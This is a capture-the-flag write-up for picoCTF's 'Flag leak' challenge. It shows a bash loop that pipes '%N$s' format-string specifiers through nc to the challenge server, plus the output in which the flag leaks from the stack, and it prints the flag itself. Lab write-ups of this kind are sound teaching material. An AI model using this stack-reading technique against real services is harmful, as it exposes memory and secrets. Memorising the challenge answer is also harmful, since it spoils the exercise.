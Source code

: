 # Flag leak
## Description
Story telling class 1/2
I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using:
nc saturn.picoctf.net 52373
## Solution
- Its under format stings which is a major hint. Since there are string vulnerabiltites that we can make use of.
- I tried looking at the code and gave various inputs to try and overflow the buffer but that didn't give the flag. We  need to take another approach.
- So first I tried giving %i$s where i is an integer(tried for a few values), I got meaningless strings, but surely there could be an element in the stack which is the string.
- Using for loops in linux shell, looked up the syntax. Did it to print 0-50 values in the stack, now obviously not all will have values but some strings might be printed hinting the flag.
- The for loop is just for changing the value in the format specifier instead of doing it manually. 
- In the end you can see it printed the flag.(you can use grep to get only the flag).
```bash
jenx5-picoctf@webshell:~$ for i in {0..50}; do echo "%$i\$s" | nc saturn.picoctf.net 52373; done
Tell me a story and then I'll tell you one >> Here's a story - 
%0$s
Tell me a story and then I'll tell you one >> Here's a story - 
%1$s
Tell me a story and then I'll tell you one >> Here's a story - 

Tell me a story and then I'll tell you one >> Here's a story - 
ú,
Tell me a story and then I'll tell you one >> Here's a story - 
Tell me a story and then I'll tell you one >> Here's a story - 
Tell me a story and then I'll tell you one >> Here's a story - 
(null)
Tell me a story and then I'll tell you one >> Here's a story - 
/
Tell me a story and then I'll tell you one >> Here's a story - 

Tell me a story and then I'll tell you one >> Here's a story - 
Tell me a story and then I'll tell you one >> Here's a story - 
(null)
Tell me a story and then I'll tell you one >> Here's a story - 
.
Tell me a story and then I'll tell you one >> Here's a story - 

Tell me a story and then I'll tell you one >> Here's a story - 
(null)
Tell me a story and then I'll tell you one >> Here's a story - 

Tell me a story and then I'll tell you one >> Here's a story - 

Tell me a story and then I'll tell you one >> Here's a story - 
(g8g8g8g8g8g8g8h8
Tell me a story and then I'll tell you one >> Here's a story - 
Tell me a story and then I'll tell you one >> Here's a story - 
(null)
Tell me a story and then I'll tell you one >> Here's a story - 
setresgid
Tell me a story and then I'll tell you one >> Here's a story - 

Tell me a story and then I'll tell you one >> Here's a story - 
e

Tell me a story and then I'll tell you one >> Here's a story - 
setresgid
Tell me a story and then I'll tell you one >> Here's a story - 

Tell me a story and then I'll tell you one >> Here's a story - 
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
Tell me a story and then I'll tell you one >> Here's a story - 
```
- I stopped the execution after I got the flag. If you don't it'll continue for more iterations which we don't really want. We just need the flag
> Flag: picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
